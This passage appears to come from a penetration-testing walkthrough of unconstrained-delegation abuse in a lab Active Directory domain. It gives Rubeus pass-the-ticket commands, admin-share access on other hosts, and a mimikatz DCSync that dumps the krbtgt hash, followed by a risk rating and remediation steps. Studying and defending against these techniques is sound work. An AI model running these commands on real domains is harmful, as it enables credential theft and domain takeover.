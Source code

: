 ![](http://news.baycode.eu/wp-content/uploads/2023/11/24-2.png)

And can be imported into the Kerberos session.

```
Rubeus.exe ptt /ticket:<ticket>
klist
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/26-2.png)

And afterwards we can access other computer drives.
```
dir \\PRINTER.democorp.com\c$
dir \\SERVICE.democorp.com\c$
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/27-2.png)

We could even access domain controller.

![](http://news.baycode.eu/wp-content/uploads/2023/11/28-2.png)

And if we could do that, then we could as well perform a `DCSync` attack and dump credentials from the domain controller.

```
mimikatz # lsadump::dcsync /domain:democorp.com /user:krbtgt
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/29-2.png)

We have acquired the NTLM hash and AES key for the `krbtgt` account, enabling us to create a Golden Ticket, a task we will undertake in the final chapter in order to achieve persistence on the domain.

## What is the risk?

Likelihood: **High** - Exploiting the Unconstrained delegation requires first compromising the unconstrained delegation machine. Any internal threat operating on the unconstrained delegation enabled computer can exploit this vulnerability. 

Impact: **Very High** -The attacker was able to compromise the domain

## What is the remediation?

Either disable delegation or use one of the following Kerberos constrained delegation (KCD) types:
**Constrained delegation:** Restricts which services this account can impersonate.

1. Select **Trust this computer for delegation to specified services only**.
2. **Resource-based constrained delegation:** Restricts which entities can impersonate this account.  
    Resource-based KCD is configured using PowerShell. You use the [Set-ADComputer](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adcomputer) or [Set-ADUser](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-aduser) cmdlets, depending on whether the impersonating account is a computer account or a user account / service account.

